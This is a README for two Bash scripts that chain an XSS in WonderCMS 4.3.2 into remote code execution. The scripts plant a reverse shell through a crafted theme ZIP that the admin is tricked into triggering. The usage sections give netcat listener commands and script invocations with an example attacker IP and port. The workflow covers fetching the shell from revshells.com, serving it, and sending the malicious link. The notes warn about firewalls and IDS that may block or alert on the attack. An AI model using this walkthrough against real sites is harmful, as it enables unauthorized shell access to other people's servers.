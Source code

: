 # WonderCMS 4.3.2 XSS to RCE Exploits

## Overview

These scripts exploit an XSS (Cross-Site Scripting) vulnerability in **WonderCMS 4.3.2** to achieve **Remote Code Execution (RCE)**. The XSS payload, when triggered by the admin, automatically installs a reverse shell on the target server by leveraging a crafted malicious theme module. The reverse shell is obtained from **revshells.com** and executed, granting the attacker remote access to the server.

---

## Table of Contents

- [Prerequisites](#prerequisites)
- [Script 1: Automatic Exploit](#script-1-automatic-exploit)
  - [Features](#features)
  - [Usage](#usage)
- [Script 2: Manual Exploit](#script-2-manual-exploit)
  - [Features](#features-1)
  - [Usage](#usage-1)
- [Notes](#notes)
- [License](#license)

---

## Prerequisites

To successfully run either script, the following tools and conditions are required:

1. **Bash Shell**: Both scripts are written for Linux environments using the Bash shell.
2. **netcat (nc)**: Used to listen for the reverse shell connection.
3. **Python3**: A simple Python HTTP server is used to host the XSS payload.
4. **WonderCMS 4.3.2**: The target must be running a vulnerable version of WonderCMS.
5. **Administrator Interaction**: The payload requires an admin to trigger the XSS, which results in the reverse shell execution.
6. **revshells.com**: The reverse shell payload is downloaded dynamically from revshells.com.

---

## Script 1: Automatic Exploit

### Features

This version of the exploit automatically checks for an active `nc` listener, downloads the reverse shell, starts the HTTP server, sends the payload, and waits for the admin to trigger the reverse shell.

- **Automatic Reverse Shell Setup**: Downloads a pre-generated reverse shell from revshells.com.
- **XSS Payload Injection**: Injects an XSS payload in the target's contact form.
- **HTTP Server Management**: Automatically starts a Python HTTP server to host the reverse shell payload.
- **nc Listener Check**: Ensures the listener is running before proceeding.
- **Payload Auto-send**: Sends the payload automatically without user interaction.

### Usage

1. Ensure the `nc` listener is running on the specified port:
   ```bash
   nc -nvlp <PORT>
   ```
2. Run the script with the following command:
   ```bash
   ./script1.sh <loginURL> <attacker_IP> <attacker_PORT>
   ```
   Example:
   ```bash
   ./script1.sh http://localhost/loginURL 192.168.29.165 5252
   ```

### Workflow

1. **Download Reverse Shell**: The script downloads the reverse shell from `revshells.com`.
2. **Modify the Reverse Shell**: The reverse shell script is updated with the attacker's IP and port.
3. **Create ZIP Payload**: A ZIP file containing the reverse shell is created.
4. **Craft XSS Payload**: An XSS payload that installs the reverse shell is generated and injected into the vulnerable contact form.
5. **Auto-Start HTTP Server**: The script starts a Python HTTP server to serve the malicious payload.
6. **Auto-Send Payload**: The XSS payload is sent to the admin automatically.

---

## Script 2: Manual Exploit

### Features

This version requires the user to manually manage the `nc` listener and the XSS payload triggering. It is more suited for scenarios where automatic processes are not desirable.

- **Manual Reverse Shell Setup**: The user is responsible for ensuring the listener is running.
- **Manual XSS Triggering**: The script provides the malicious link to be sent to the admin, but the payload must be triggered manually.
- **HTTP Server Management**: Starts a Python HTTP server to host the XSS payload.

### Usage

1. Ensure the `nc` listener is running on the specified port:
   ```bash
   nc -nvlp <PORT>
   ```
2. Run the script with the following command:
   ```bash
   ./script2.sh <loginURL> <attacker_IP> <attacker_PORT>
   ```
   Example:
   ```bash
   ./script2.sh http://localhost/loginURL 192.168.29.165 5252
   ```

### Workflow

1. **Download Reverse Shell**: Downloads a reverse shell from `revshells.com`.
2. **Modify the Reverse Shell**: Updates the reverse shell with the attacker's IP and port.
3. **Create ZIP Payload**: Creates a ZIP file containing the reverse shell.
4. **Craft XSS Payload**: Generates an XSS payload that installs the reverse shell.
5. **Display Malicious Link**: Displays the link that needs to be sent to the admin for triggering.
6. **Start HTTP Server**: Starts a Python HTTP server to host the payload.

---

## Notes

- **Admin Interaction**: Both exploits rely on the WonderCMS admin triggering the XSS payload by visiting the vulnerable page. Once triggered, the reverse shell is established with the attacker's machine.
- **Firewall/IDS/IPS**: Be cautious when running these exploits on environments protected by firewalls or Intrusion Detection Systems (IDS) that might block or alert on suspicious activity.
- **Responsible Disclosure**: If you find that a target is vulnerable, always follow ethical guidelines and report the vulnerability to the appropriate parties.

